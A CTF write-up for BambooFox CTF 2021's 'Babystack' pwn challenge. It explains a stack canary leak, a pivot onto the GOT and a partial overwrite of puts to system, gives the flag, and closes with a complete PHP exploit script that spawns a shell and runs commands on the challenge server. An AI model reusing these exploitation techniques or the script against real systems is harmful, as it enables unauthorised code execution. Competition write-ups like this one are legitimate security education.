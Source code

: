 # Babystack - BambooFox CTF 2021 (pwn, 421p)

## Introduction
Babystack is a pwn task.

An archive containing a binary and a Dockerfile is given.

## Reverse engineering
The binary asks for a name, and a token. If the token is not `deadbeef`, the
program exits.

```c
token[8] = 'd';
token[9] = 'e';
token[10] = 'a';
token[11] = 'd';
token[12] = 'b';
token[13] = 'e';
token[14] = 'e';
token[15] = 'f';

puts("Hello, please give me your token: ");
read(0,token,0x10);

if(0 != memcmp(token + 8,token,8)) {
	puts("Token Error");
	exit(0);
}
```

The binary then reads two strings (`str1` and `str2`) and prints them back with
`puts`. It uses a buffer of size `0x38` to read both strings. The first string
is at most `0x10` bytes, and the size of the second string is dependent of the
first string.

```c
char buffer[0x38];

puts("str1: ");
size   = read(0,buffer,0x10);
length = strlen(buffer);
puts(buffer);

puts("str2: ");
read(0, buffer + size, 0x38 - length);
puts(buffer + size);
```

At last, the binary reads a final string of size `0x18` and prints it with
`puts`. It then closes `stdout` and exits.

```c
read(0, buf, 0x18);
puts(buf);
close(1);
return 0;
```

## Vulnerabilities
The function that reads two strings in the same buffer can be used to leak
uninitialized memory on the stack. This can be used to leak the stack canary.

It is also possible to overwrite up to 2 qwords after the buffer (the canary and
the saved frame pointer)

## Exploitation
The vulnerable function is called twice. The first time can be used to leak the
stack's canary. The second time can be used to move the stack pointer to the
binary's `.got.plt` section.

The last `read` will then read to `rbp - 0x50` and thus overwrite the `.got.plt`
section.

Since `puts` is called right after `read`, changing the last 3 bytes of `puts`
to `system` gives a 1/4096 chance that the call to `puts` will be replaced with
`system`.

**Flag**: `flag{Very_3asy_st@ck_piv0t_challenge_right}`

## Appendices
### pwn.php
```php
#!/usr/bin/php
<?php // vim: filetype=php
require_once "/mnt/ctf/tools/pwn/phplib/hexdump.php";
require_once "/mnt/ctf/tools/pwn/phplib/tubes/Process.php";
require_once "/mnt/ctf/tools/pwn/phplib/tubes/Socket.php";

const HOST = "chall.ctf.bamboofox.tw";
const PORT = 10102;

printf("[*] Creating process\n");
$time = microtime(true);

$t = new Socket(HOST, PORT);

printf("[+] Done in %f seconds\n", microtime(true) - $time);
printf("\n");

$t->expectLine("Name: ");
$t->write("XeR");

$t->expectLine("Hello, please give me your token: ");
$t->write("deadbeef");

$t->expectLine("str1: ");
$t->write(str_repeat("\x00", 8));
$t->expectLine("");

$t->expectLine("str2: ");
$t->write("A");
$leak = substr($t->readLine(), 0, 8);
assert(8 === strlen($leak));

$canary  = unpack("Q", $leak)[1];
$canary -= ord("A");
assert(0 === ($canary & 0xFF));
printf("[+] Canary: %X\n", $canary);

/* Round 2 */
$t->expectLine("str1: ");
$t->write(pack("QQ", 0, 0));
$t->expectLine("");

$t->expectLine("str2: ");
$rbp      = 0x403410 - 0x10 + 0x50; // puts@got.plt - 0x10
$payload  = str_repeat("\x00", 0x40 - 0x10 - 0x08);
$payload .= pack("Q", $canary);
$payload .= pack("Q", $rbp);
assert(0x38 === strlen($payload));
$t->write($payload);
$t->expectLine("");

// read 0x18 at rbp - 0x50
$payload = "echo shell; sh";
$payload = str_pad($payload, 0x10, "\x00");
assert(0x10 === strlen($payload));
$payload .= "\xd0\x2f\x05";
$t->write($payload);
$t->expectLine("shell");

printf("\x07");
$t->write("cat /home/babystack/flag; ls -la; id\n");
$t->pipe();
```
